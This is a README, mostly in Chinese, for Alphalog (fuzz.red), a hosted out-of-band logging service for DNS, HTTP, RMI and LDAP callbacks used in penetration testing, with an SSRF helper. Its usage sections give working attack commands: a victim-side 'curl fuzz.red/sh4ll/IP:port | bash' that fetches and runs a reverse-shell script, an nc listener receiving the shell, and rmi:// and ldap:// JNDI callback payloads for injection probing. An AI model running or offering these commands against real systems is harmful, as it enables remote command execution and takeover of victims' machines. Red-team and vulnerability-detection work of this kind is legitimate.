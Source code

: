 <img src="fuzz.red.jpg">

# Alphalog

DNSLog、httplog、rmilog、ldaplog、jndi 等都支持,完全匿名 产品(fuzz.red)，Alphalog与传统DNSLog不同，更快、更安全。


```bash
  $$$$$$\  $$\           $$\                 $$\                          
 $$  __$$\ $$ |          $$ |                $$ |                         
 $$ /  $$ |$$ | $$$$$$\  $$$$$$$\   $$$$$$\  $$ |      $$$$$$\   $$$$$$\  
 $$$$$$$$ |$$ |$$  __$$\ $$  __$$\  \____$$\ $$ |     $$  __$$\ $$  __$$\ 
 $$  __$$ |$$ |$$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |     $$ /  $$ |$$ /  $$ |
 $$ |  $$ |$$ |$$ |  $$ |$$ |  $$ |$$  __$$ |$$ |     $$ |  $$ |$$ |  $$ |
 $$ |  $$ |$$ |$$$$$$$  |$$ |  $$ |\$$$$$$$ |$$$$$$$$\\$$$$$$  |\$$$$$$$ |
 \__|  \__|\__|$$  ____/ \__|  \__| \_______|\________|\______/  \____$$ |
               $$ |                                             $$\   $$ |
               $$ |                 By:Alphabug                 \$$$$$$  |
               \__|                 Version:0.2022.01.16.01      \______/
```

# Welcome to Fuzz.Red #

![image](https://user-images.githubusercontent.com/27001865/150348452-38595c7d-8f16-4564-a1c7-9a02ed9b57a9.png)

## Usage

1. Get token(`key`) and randomly named subdomain (Expires: 1 Day)

	```bash
	$ curl fuzz.red/get
	{"key":"63d755be-9683-40a9-91fb-b85890155872","subdomain":"oz4e.fuzz.red"}
	```

2. Get logs

	```bash
	$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
	{"code":200,"data":[]}
	```

### DNSLOG

```bash
ping -c 1 oz4e.fuzz.red
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872"
{"code":200,"data":["{\"ip\":\"192.168.1.1\",\"reqbody\":[\"\"],\"subdomain\":\"oz4e.fuzz.red.\",\"time\":\"2022-01-14 17:01:17 +0800 CST\",\"type\":\"dns\"}"]} 
```

### HTTPLOG

```bash
curl oz4e.fuzz.red -d "abc"
```

```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool
{
"code": 200,
"data": [
	{...}]
}
```

### SSRF

```bash
$ curl -L fuzz.red/ssrf/www.baidu.com/
<!DOCTYPE html>...(www.baidu.com page)...</html>
```


### 反弹shell

```bash
$ curl fuzz.red/sh4ll/ip:port
```

Victim

```bash
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | bash
# or 
$ curl fuzz.red/sh4ll/1.2.3.4:1234 | sh
```

VPS

```bash
$ nc -lvvp 1234
listening on [any] 1234 ...
connect to [1.2.3.4] from fbi.gov [127.0.0.1] 46958
```

### RMI or LDAP 
PATH规则为“sub/text”,sub为子域名的主机头，text为自定义特征
例如：子域名=oz4e.fuzz.red，text=Alphabug
=> oz4e/Alphabug

```bash
rmi://jndi.fuzz.red:5/oz4e/Alphabug
# or
ldap://jndi.fuzz.red:5/oz4e/Alphabug
```
获取log
```bash
$ curl fuzz.red -X POST -d "key=63d755be-9683-40a9-91fb-b85890155872" | python -m json.tool

{
	"code": 200,
	"data": [
		{
			"ip": "1.2.3.4:41584",
			"reqbody": "Alphabug",
			"subdomain": "oz4e.fuzz.red.",
			"time": "2022-01-16 03:40:03 -0500 EST",
			"type": "ldap"
		}
	]
}
```
## 作者有话说

###  项目名称为：Alphalog，作者Alphabug。
采用Go编写开发 DNS服务、Http服务等，后续等待开源。

项目域名为匿名域名，请求接口没有做任何的记录。所有dnslog存活时间为1天，大家可以亲测。

（请勿CC/DDos，服务器特别贵，可能没办法退钱）
       
## 项目日志：
- 2021年12月14日 17:30:35 第一个版本完成
- 2021年12月14日 20:14:57 特别感谢团队成员hexman、Longlone（WaY）测试提出的各类bug。
- 2021年12月14日 20:26:33 上架公测，我是Alphabug欢迎大家提需求，目的就是让dnslog扩展性更高，如果您有建议请邮箱联系我：alphabug@redteam.site
- 2021年12月14日 21:17:15 页面不再更新，Issue 上github吧。项目地址 https://github.com/AlphabugX/Alphalog
- 2022年01月15日 17:07:41 添加httplog功能，升级数据格式。
- 2022年01月15日 17:52:03 添加SSRF辅助功能。
- 2022年01月15日 18:52:42 添加反弹shell功能,支持bash、sh、nc、python、awk、telnet弹shell方法。
- 2022年01月16日 16:45:12 添加RMI、LDAP log功能，引用https://github.com/EmYiQing/JNDIScan核心模块，实现log查询。

## curl 效果日志
![image](https://user-images.githubusercontent.com/27001865/149620709-e02d8876-8320-445c-8cf3-151f653b04b3.png)

## www.fuzz.red 效果
![www fuzz red_(iPhone X)](https://user-images.githubusercontent.com/27001865/149708515-c1dcf244-babe-4948-9418-3760c697010c.png)

![image](https://user-images.githubusercontent.com/27001865/149654871-c93be50f-5e42-4c6a-b1d2-447870285cb5.png)


## 实时反馈群 

### QQ反馈群


QQ群：727871590

![$XVJBS5Q 5QNTDURQ(AKGU6](https://user-images.githubusercontent.com/27001865/159666679-102374da-b9f9-4324-8485-89f8bbbd7e2b.jpg)

//
